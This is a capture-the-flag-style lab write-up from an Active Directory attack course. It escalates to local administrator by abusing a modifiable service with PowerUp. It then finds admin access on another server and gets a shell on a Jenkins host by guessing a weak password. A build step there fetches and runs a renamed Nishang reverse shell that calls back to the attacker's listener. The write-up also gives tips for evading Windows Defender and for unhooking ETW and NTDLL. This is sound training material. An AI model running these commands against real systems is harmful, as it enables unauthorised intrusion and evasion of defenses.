





# Learning Objective 05 (Privilege Escalation | Feature Abuse)

## Tasks

1. **Exploit a service on `dcorp-student422` and elevate privileges to local administrator**
2. **Identify a machine in the domain where `student422` has local administrative access**
3. **Using privileges of a user on Jenkins on `172.16.3.11:8080`, get admin privileges on `172.16.3.11`, the `dcorp-ci` server**

---

## Solution

1. **Exploit a service on `dcorp-student422` and elevate privileges to local administrator**

**Local Privilege Escalation - PowerUp**


`whoami`:
```
dcorp\student422
```

`hostname`:
```
dcorp-std422
```

`whoami /all`:
```
USER INFORMATION
----------------

User Name        SID
================ ==============================================
dcorp\student422 S-1-5-21-719815819-3726368948-3917688648-20607


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users               Alias            S-1-5-32-555                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
dcorp\RDPUsers                             Group            S-1-5-21-719815819-3726368948-3917688648-1123 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                      Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

We can use Powerup from PowerSploit module to check for any privilege escalation path.

**Note:** Remember to run PowerUp from a PowerShell session started using Invisi-Shell.

`cd \AD\Tools`

`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`Import-Module C:\AD\Tools\PowerUp.ps1`

`Invoke-AllChecks`:
```
[*] Running Invoke-AllChecks

[*] Checking if user is in a local group with administrative privileges...

[*] Checking for unquoted service paths...📌


ServiceName    : AbyssWebServer📌
Path           : C:\WebServer\Abyss Web Server\abyssws.exe -service
ModifiablePath : @{ModifiablePath=C:\WebServer; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AbyssWebServer' -Path <HijackPath>
CanRestart     : True📌
Name           : AbyssWebServer
Check          : Unquoted Service Paths📌

ServiceName    : AbyssWebServer
Path           : C:\WebServer\Abyss Web Server\abyssws.exe -service
ModifiablePath : @{ModifiablePath=C:\WebServer; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AbyssWebServer' -Path <HijackPath>
CanRestart     : True
Name           : AbyssWebServer
Check          : Unquoted Service Paths

[SNIP]

[*] Checking service executable and argument permissions...📌

ServiceName                     : AbyssWebServer
Path                            : C:\WebServer\Abyss Web Server\abyssws.exe -service📌
ModifiableFile                  : C:\WebServer\Abyss Web Server
ModifiableFilePermissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
ModifiableFileIdentityReference : Everyone📌
StartName                       : LocalSystem📌
AbuseFunction                   : Install-ServiceBinary -Name 'AbyssWebServer'📌
CanRestart                      : True
Name                            : AbyssWebServer
Check                           : Modifiable Service Files

[SNIP]

[*] Checking service permissions...

ServiceName   : AbyssWebServer📌
Path          : C:\WebServer\Abyss Web Server\abyssws.exe -service
StartName     : LocalSystem📌
AbuseFunction : Invoke-ServiceAbuse -Name 'AbyssWebServer'📌
CanRestart    : True📌
Name          : AbyssWebServer
Check         : Modifiable Services

ServiceName   : SNMPTRAP📌
Path          : C:\Windows\System32\snmptrap.exe
StartName     : LocalSystem📌
AbuseFunction : Invoke-ServiceAbuse -Name 'SNMPTRAP'📌
CanRestart    : True📌
Name          : SNMPTRAP
Check         : Modifiable Services

[SNIP]
```

Let's use the abuse function `Invoke-ServiceAbuse` and add our current domain user to the local "Administrators" group.

`Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\student422' -Verbose`:
```
VERBOSE: Service 'AbyssWebServer' original path: 'C:\WebServer\Abyss Web Server\abyssws.exe -service'
VERBOSE: Service 'AbyssWebServer' original state: 'Stopped'
VERBOSE: Executing command 'net localgroup Administrators dcorp\student422 /add'
VERBOSE: binPath for AbyssWebServer successfully set to 'net localgroup Administrators dcorp\student422 /add'⏫
VERBOSE: Restoring original path to service 'AbyssWebServer'
VERBOSE: binPath for AbyssWebServer successfully set to 'C:\WebServer\Abyss Web Server\abyssws.exe -service'
VERBOSE: Leaving service 'AbyssWebServer' in stopped state

ServiceAbused  Command
-------------  -------
AbyssWebServer net localgroup Administrators dcorp\student422 /add
```

We can see that the `dcorp\student422` is a local administrator now.

Just logoff and logon again and we have local administrator privileges!


`whoami /all`:
```
USER INFORMATION
----------------

User Name        SID
================ ==============================================
dcorp\student422 S-1-5-21-719815819-3726368948-3917688648-20607


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes

========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users               Alias            S-1-5-32-555                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators📌                   Alias            S-1-5-32-544                                  Group used for deny only❌
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
dcorp\RDPUsers                             Group            S-1-5-21-719815819-3726368948-3917688648-1123 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                      Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```
🚩

**Local Privilege Escalation - WinPEAS**


You can use WinPEAS using the following command.

**Note that we use an obfuscated version of WinPEAS.**

`C:\AD\Tools\Loader.exe -Path C:\AD\Tools\winPEASx64.exe -args notcolor log`:
```
[+] Successfully unhooked ETW!
[+++] NTDLL.DLL IS UNHOOKED!
[+++] KERNEL32.DLL IS UNHOOKED!
[+++] KERNELBASE.DLL IS UNHOOKED!
[+++] ADVAPI32.DLL IS UNHOOKED!
[+] URL/PATH : C:\AD\Tools\winPEASx64.exe Arguments : notcolor log
"log" argument present, redirecting output to file "out.txt"📌
```

Spend some time analyzing the output of WinPEAS. You will find useful information in the 'Services Information' section of the output.

`type out.txt`:
```
[SNIP]

════════════════════════════════════╣ Services Information ╠════════════════════════════════════

╔══════════╣ Interesting Services -non Microsoft-
╚ Check if you can overwrite some service binary or perform a DLL hijacking, also check for unquoted paths https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services
    AbyssWebServer(Aprelium - Abyss Web Server)[C:\WebServer\Abyss Web Server\abyssws.exe -service] - Auto - Stopped - No quotes and Space detected📌
    YOU CAN MODIFY THIS SERVICE: AllAccess📌
    File Permissions: Everyone [AllAccess]
    Possible DLL Hijacking in binary folder: C:\WebServer\Abyss Web Server (Everyone [AllAccess], Users [AppendData/CreateDirectories WriteData/CreateFiles])📌
   =================================================================================================

    ssh-agent(OpenSSH Authentication Agent)[C:\Windows\System32\OpenSSH\ssh-agent.exe] - Disabled - Stopped
    Agent to hold private keys used for public key authentication.
   =================================================================================================


╔══════════╣ Modifiable Services
╚ Check if you can modify any service https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services
    LOOKS LIKE YOU CAN MODIFY OR START/STOP SOME SERVICE/s:
    AbyssWebServer: AllAccess📌
    RmSvc: GenericExecute (Start/Stop)
    SNMPTRAP: AllAccess📌
    ConsentUxUserSvc_21fd24: GenericExecute (Start/Stop)
    CredentialEnrollmentManagerUserSvc_21fd24: GenericExecute (Start/Stop)
    DeviceAssociationBrokerSvc_21fd24: GenericExecute (Start/Stop)
    DevicePickerUserSvc_21fd24: GenericExecute (Start/Stop)
    DevicesFlowUserSvc_21fd24: GenericExecute (Start/Stop)
    PimIndexMaintenanceSvc_21fd24: GenericExecute (Start/Stop)
    PrintWorkflowUserSvc_21fd24: GenericExecute (Start/Stop)
    UdkUserSvc_21fd24: GenericExecute (Start/Stop)
    UnistoreSvc_21fd24: GenericExecute (Start/Stop)
    UserDataSvc_21fd24: GenericExecute (Start/Stop)
    WpnUserService_21fd24: GenericExecute (Start/Stop)

[SNIP]
```
🚩

**Local Privilege Escalation - PrivEscCheck**

Similarly, we can use PrivEscCheck for a nice summary of possible privilege escalation opportunities.


`. C:\AD\Tools\PrivEscCheck.ps1`

`Invoke-PrivescCheck`:
```
[SNIP]

┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ Service permissions                               ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the current user has any write permissions on  ┃
┃ a service through the Service Control Manager (SCM).         ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Vulnerable - High


Name              : AbyssWebServer📌
ImagePath         : C:\WebServer\Abyss Web Server\abyssws.exe -service
User              : LocalSystem📌
AccessRights      : AllAccess📌
IdentityReference : Everyone
Status            : Stopped
UserCanStart      : True
UserCanStop       : True

Name              : SNMPTRAP📌
ImagePath         : C:\Windows\System32\snmptrap.exe
User              : LocalSystem📌
AccessRights      : AllAccess📌
IdentityReference : Everyone
Status            : Running
UserCanStart      : True
UserCanStop       : True

[SNIP]

┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ Service image file permissions                    ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the current user has any write permissions on  ┃
┃ a service's binary or its folder.                            ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Vulnerable - High


Name              : AbyssWebServer
ImagePath         : C:\WebServer\Abyss Web Server\abyssws.exe -service📌
User              : LocalSystem
ModifiablePath    : C:\WebServer\Abyss Web Server\abyssws.exe
IdentityReference : Everyone
Permissions       : WriteOwner, Delete, WriteAttributes, Synchronize, ReadControl, ReadData, AppendData, WriteExtendedAttributes, WriteDAC, ReadAttributes,
                    WriteData, ReadExtendedAttributes, DeleteChild, Execute
Status            : Stopped
UserCanStart      : True
UserCanStop       : True

[SNIP]

┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ Service unquoted paths                            ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether there are services configured with an          ┃
┃ exploitable unquoted path that contains spaces.              ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Vulnerable - High


Name           : AbyssWebServer
ImagePath      : C:\WebServer\Abyss Web Server\abyssws.exe -service
User           : LocalSystem
Status         : Stopped
UserCanStart   : True📌
UserCanStop    : True
ModifiablePath : C:\WebServer
Vulnerable     : True

[SNIP]
```
🚩

2. **Identify a machine in the domain where `student422` has local administrative access**

**Hunt for Local Admin access**

To identify a machine in the domain where `student422` has local administrative access, we can use `Find-PSRemotingLocalAdminAccess.ps1`.


`. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1`

`Find-PSRemotingLocalAdminAccess`:
```
dcorp-adminsrv🖥️
```

So, `student422` has administrative access on `dcorp-adminsrv` and on the student machine. We can connect to `dcorp-adminsrv` using `winrs` as the `student422` user.

`winrs -r:dcorp-adminsrv cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\student422>
```
🚀

<🔄 Alternative Step🔄>

We can also use PowerShell Remoting to connect to `dcorp-adminsrv` as the `student422` user.

`Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local`:
```
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student422\Documents> whoami
dcorp\student422
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student422\Documents> hostname
dcorp-adminsrv
```
🚀

</🔄 Alternative Step🔄>


`set username`:
```
USERNAME=student422
```

`set computername`:
```
dcorp-adminsrv
```
🚩

3. **Using privileges of a user on Jenkins on `172.16.3.11:8080`, get admin privileges on `172.16.3.11`, the `dcorp-ci` server**

**Abuse Jenkins Instance**

Next, let's try our hands on the Jenkins instance.

To be able to execute commands on Jenkins server without admin access **we must have privileges to configure builds**.
We have a misconfigured Jenkins instance on `dcorp-ci` (`http://172.16.3.11:8080`). If we go to the `People` page of Jenkins we can see the users present on the Jenkins instance.



Since Jenkins does not have a password policy many users use username as passwords even on the publicly available instances. By manually trying the usernames as passwords we can identify that the user "builduser" has password "builduser". The user "builduser" can configure builds and add build steps which will help us in executing commands.

Use the encodedcomand parameter of PowerShell to use an encoded reverse shell or use `download execute` cradle in Jenkins build step.

You can use any reverse shell, below we are using a slightly modified version of `Invoke-PowerShellTcp` from [Nishang](https://github.com/samratashok/nishang). We renamed the function `Invoke-PowerShellTcp` to `Power` in the script **to bypass Windows Defender**.




`ipconfig`:
```
Windows IP Configuration


Ethernet adapter Ethernet 9:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::d5b9:a798:6a3d:c87%23
   IPv4 Address. . . . . . . . . . . : 172.16.100.22📌
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.100.254
```

If using `Invoke-PowerShellTcp`, make sure to include the function call in the script `Power -Reverse -IPAddress 172.16.100.22 -Port 443` or append it at the end of the command in Jenkins.

**Please note that you may always like to rename the function name to something else to avoid detection.**

```
powershell.exe iex (iwr http://172.16.100.22/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.22 -Port 443
```



Save the configuration.

Double check the following:
- Remember to host the reverse shell on a local web server on your student VM. You can find `hfs.exe` in the `C:\AD\Tools` directory of your student VM. Note that HFS goes in the system tray when minimized. You may like to click the up arrow on the right side of the taskbar to open the system tray and double-click on the HFS icon to open it again.
- Also, make sure to **add an exception or turn off the firewall** on the student VM.
- Check if there is any typo or extra space in the Windows Batch command that you used above in the Jenkins project.
- After you build the project below, check the `Console Output` of the Jenkins Project to know more about the error.





On the student VM, run a netcat or powercat listener which listens on the port which we used above.

`C:\AD\Tools\netcat-win32-1.12\nc64.exe -lvp 443`:
```
listening on [any] 443 ...

[...]
```

On Jenkins web console, launch the Build by clicking on `Build Now` and on the listener, you will see:

```
[...]

172.16.3.11: inverse host lookup failed: h_errno 11004: NO_DATA
connect to [172.16.100.22] from (UNKNOWN) [172.16.3.11] 52915: NO_DATA
Windows PowerShell running as user ciadmin on DCORP-CI
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator\.jenkins\workspace\Project11>
```
🚀

We can now run commands on the reverse shell.


`whoami`:
```
dcorp\ciadmin
```

`hostname`:
```
dcorp-ci
```

`ipconfig`:
```
Windows IP Configuration


Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::2142:a456:11a2:dfb4%5
   IPv4 Address. . . . . . . . . . . : 172.16.3.11📌
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.3.254
```
🚩

---
---
